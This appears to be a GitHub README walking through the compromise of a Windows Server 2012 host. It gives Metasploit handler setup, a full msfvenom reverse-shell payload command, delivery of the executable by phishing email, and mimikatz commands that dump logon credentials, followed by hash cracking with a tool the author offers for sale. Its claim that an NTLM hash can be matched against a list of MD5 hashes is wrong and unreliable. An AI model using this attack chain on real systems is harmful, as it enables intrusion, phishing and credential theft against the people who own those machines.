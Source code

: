 ![image](https://user-images.githubusercontent.com/101802030/225642283-5574f2d4-dca9-4769-9fb3-b5c3181bd344.png)



This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  - 1 - sudo msfconsole <br>
  - 2 - use multi/handler <br>
  - 3 - configure payload (preferrable : windows/meterpreter/rerverse_tcp) <br>
  - 4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  - 5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, if a disconnect from the client(victim) is received. After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225851486-2fa0062f-5b31-435c-8b7d-9b492d37a588.png)
  
  # Step 2 : Create an exploit using msfvenom. To do so, you run the following command -
  - 1 - sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe -o ~/Downloads/my_new_exploit.exe
  - And you should see the following output :
  
  ![image](https://user-images.githubusercontent.com/101802030/225945823-7e83ae7e-f211-4359-8b63-a72db0f21506.png)
  
  # Step 3 : Infect the victim machine with the exploit. In this case it will be a Windows Server 2012 edition. To do so, you may perform the following steps -
  - 1 - Host the exploit on a webserver, preferrably Linux. 
  - 2 - Create an e-mail containing a url link to the exploit
  - 3 - Send email to victim machine and have the link clicked on and run the executable. You should see the following screen on your server and/or C2
  
  ![image](https://user-images.githubusercontent.com/101802030/225951348-ec303cc6-1302-4ce9-bb98-a8710cf28dc6.png)
  
  # Step 4 : Download mimikatz and obtain ntlm hash. To do so, you use the following steps -
  - 1 - In your meterpreter session, type upload and the location of the file you would like to upload as well as the location you would like to upload the file to on the victim. In this case, it will be mimikatz. It could be a good idea to place it in your web servers root directory. See below example screenshot of this step being performed :
  
  ![image](https://user-images.githubusercontent.com/101802030/225954841-e3218cfe-4182-4a50-9935-e6114c380d5b.png)
  
  # Step 5 : Navigate to the infected hosts directory where you uploaded mimikatz to, in the previous step, and do the following -
  - 1 - Run mimikatz, by simply typing mimikatz.exe. Don't use tab(ever!). This should display the mimikatz console.
  - 2 - In order to obtain the ntlm hash, run the following command :
  - 2.1 - privilege::debug
  - 2.2 - sekurlsa::logonPasswords
  - You should then see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225957540-0887f031-02b4-44da-8a83-fac4887ce0cf.png)
  
  - 3 - Scroll down until you see the following output, and copy the ntlm hash -
  
  ![image](https://user-images.githubusercontent.com/101802030/225959132-c3beb498-afb0-499f-80bf-5e7d08f1646e.png)
  
  # Step 6 : Compare the ntlm hash against a list of words that have been converted to md5 hashes -
  - 1 - Create a script to compare the hashes. I used C# to create one. This would mean that, you will need a Windows computer to successfully perform this step. 
  - Please note : You may create a script in any language of your choice, python would be ideal, since it is very user-friendly. You will also need a list a of words converted to md5 hashes saved as a .txt file. The command would be as follows :
  - 2 - hashmatcher.exe <ntlm_hash> <hash_word_file.txt>
  
  - See screenshot below, of the comparison being performed. Enjoy!
  
  ![image](https://user-images.githubusercontent.com/101802030/225962918-b259f5f7-dcaf-4053-bc15-9f43ae23af59.png)
  
  - As you can see, the program I have created in this case, is called hashmatcher. Unfortunately it is not publicly available, however I am upon to discussing acquiring the software at a minimal cost. Preferrably in Indian rupees.
  
  - It would be important to note, that in creating the wordlist of md5 hashes, it would be best to ensure that the word is next to the hash when looking for which word it is, after you have found a match. To do so, you can create a script or a program. I used python. Again, this software is not publicly available but can be acquired at a small cost. See example list below :
  
  ![image](https://user-images.githubusercontent.com/101802030/225966196-e8fbf262-21d3-445c-a3c5-57aeab8c5b8a.png)

  
  
  Disclaimer : All activities showcased are performed within the confines of legal law. Please ensure that these steps are only carried out on authorized hosts or within a home environment.








  
  


